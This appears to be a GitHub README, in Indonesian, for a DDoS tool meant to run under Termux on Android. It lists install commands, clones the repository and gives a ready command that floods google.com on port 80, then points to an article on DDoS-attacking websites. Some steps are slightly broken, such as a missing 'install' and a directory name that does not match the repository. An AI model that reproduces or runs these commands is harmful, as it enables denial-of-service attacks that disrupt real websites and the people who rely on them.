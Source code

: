 # Ddos-ByDUNIATUTORIAL
Menggunakan DDOS dengan termux bye DUNIA TUTORIAL

kode perintah 

pkg update && pkg upgrade
pkg install git
pkg python2
git clone https://github.com/Wahyuoktafian/Ddos-ByDUNIATUTORIAL
cd ddos2
python2 ddos.py -s google.com -p 80 -t 135 

supaya lebih jelas bisa baca artikel Cara DDOS Attack Website dengan Termux di Android dengan link di bawah ini
